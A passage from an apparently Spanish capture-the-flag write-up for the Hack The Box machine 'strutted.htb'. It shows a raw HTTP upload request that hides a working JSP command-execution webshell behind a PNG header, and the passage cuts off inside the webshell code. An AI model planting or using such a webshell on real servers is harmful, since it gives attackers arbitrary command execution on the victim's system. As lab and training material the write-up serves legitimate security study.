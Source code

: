 ![image](../zimages/Pasted_image_20250327132954.png)

Ahora vamos a probar a subir una webshell jsp, efectuando también el Path Traversal:

```bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://strutted.htb/
Content-Type: multipart/form-data; boundary=---------------------------73222280540321048361232719302
Content-Length: 166165
Origin: http://strutted.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: JSESSIONID=EC9DB60A6FF74AA56A49D7B878B20D67
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------73222280540321048361232719302
Content-Disposition: form-data; name="Upload"; filename="pngimg.com - linux_PNG47.png"
Content-Type: image/png

PNG
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
```
